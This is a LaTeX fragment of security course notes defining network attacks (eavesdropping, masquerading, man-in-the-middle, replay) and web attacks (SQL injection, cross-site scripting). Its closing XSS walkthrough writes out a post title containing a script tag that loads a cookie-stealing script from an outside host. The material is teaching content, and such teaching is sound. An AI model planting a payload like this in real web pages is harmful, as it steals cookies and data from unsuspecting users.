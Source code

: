 \section{Network Attacks}
\begin{definition}[Eavesdropping]
    Eavesdropping attacks consist of capturing a router and listening in.
\end{definition}

\begin{definition}[Masquerading]
    Pretending to be a website by copying the HTML and hosting that copy.
\end{definition}

\begin{definition}
    When an attacker uses masquerading to place themselves in between a client and another service. 
\end{definition}

\begin{definition}
    When a service simulates the sending of a message (say a money transfer) more times than it was intended to send.
\end{definition}

\section{Web Attacks}

\begin{definition}
     An attack in which SQL commands are injected into data-plane input in order to affect the execution of commands occurring on the server.
\end{definition}

SQL injection attacks can be mitigated by \emph{escaping all user input}. Various services do this for you when using their framework.

\begin{definition}
    Cross-site scripting attacks undermine the JavaScript sandbox in your browser. By doing so, an attacker can inject code from one page into another page. 
\end{definition}

An example cross-site scripting attack may look as follows:
\begin{enumerate}
    \item I have an account on Insta485
    \item I notice that when I add a post, the title is displayed in the page's HTML
    \item I add a post called \texttt{Check this out!<script src="http://bob.com/cookiejar.js">}
    \item You load my post page and run my script
    \item My script steals info from user or the DOM
\end{enumerate}

